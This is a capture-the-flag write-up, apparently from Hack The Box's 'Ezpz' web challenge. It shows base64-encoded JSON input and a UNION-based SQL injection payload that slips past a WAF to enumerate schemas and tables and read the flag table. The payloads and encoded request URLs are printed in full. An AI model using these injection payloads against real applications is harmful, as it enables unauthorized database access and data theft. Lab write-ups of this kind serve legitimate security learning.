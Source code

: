 ```yaml
---
date: 2019-05-12T19:17:18.000Z
layout: post
title: Ezpz Web Challenge Write Up From Hack The Box
subtitle: Its an easy web challenge, and we will butch it
description: >-
  We Are Always Here for Inject
image: >-
  https://i.imgur.com/XnJ1KF4.png
optimized_image: >-
  https://i.imgur.com/XnJ1KF4.png
category: web 
tags:
  - web
  - sqli
  - php
author: Dr.D3xt3r
paginate: true
---
```

## first Part 

i open the challenge its an error lets see what we will do .

![placeholder](https://i.imgur.com/qxWpyff.png)

lets put any value in obj : `http://docker.hackthebox.eu:30268/?obj=1`

![placeholder](https://i.imgur.com/HA1dt1Z.png)

nice its work .. lets determine 'id' property : `http://docker.hackthebox.eu:30268/?obj[id]=1`

![placeholder](https://i.imgur.com/ErPIhyx.png)

okaaai .. its take any input and decode it to base64 , so lets encode this `{"ID": "1"}`
`http://docker.hackthebox.eu:30268/?obj=eyAiSUQiOiAiMSJ9`

![placeholder](https://i.imgur.com/MkEjV2Z.png)

niiice its first part of challenge and its easy . lets see what we will do next 

## Second Part : SQLI

its being filterd by `<WAF>` so lets bypass it 

![placeholder](https://i.imgur.com/UAB6mFx.png)

I tried this payload `{"ID": "a' UNION SELECT * FROM (SELECT 1)a JOIN (SELECT schema_name FROM information_schema.schemata)b -- a"}` 

and encode it 

`http://docker.hackthebox.eu:30268/?obj=eyJJRCI6ICJhJyBVTklPTiBTRUxFQ1QgKiBGUk9NIChTRUxFQ1QgMSlhIEpPSU4gKFNFTEVDVCBzY2hlbWFfbmFtZSBGUk9NIGluZm9ybWF0aW9uX3NjaGVtYS5zY2hlbWF0YSliIC0tIGEifQ==`

![placeholder](https://i.imgur.com/5EswifW.png)

niice its working its display > "information schema tables"

lets dipaly names of the tables : 

`<http://docker.hackthebox.eu:30268/?obj=eyJJRCI6ICJhJyBVTklPTiBTRUxFQ1QgKiBGUk9NIChTRUxFQ1QgMSlhIEpPSU4gKFNFTEVDVCB0YWJsZV9uYW1lIEZST00gbXlzcWwuaW5ub2RiX3RhYmxlX3N0YXRzKWIgLS0gYSJ9>`

![placeholder](https://i.imgur.com/PlHywd8.png)

here we go we get the flag table 

`http://docker.hackthebox.eu:30268/?obj=eyJJRCI6ICJhJ1VOSU9OIFNFTEVDVCAqIEZST00gKFNFTEVDVCAxKWEgSk9JTiAoc2VsZWN0ICogZnJvbSBGbGFnVGFibGVVbmd1ZXNzYWJsZUV6UFopYiAtLSBhIn0`

![placeholder](https://i.imgur.com/CUkmWhm.png)

GG bro its so easy .. hope its clear to u thanks for reading <3
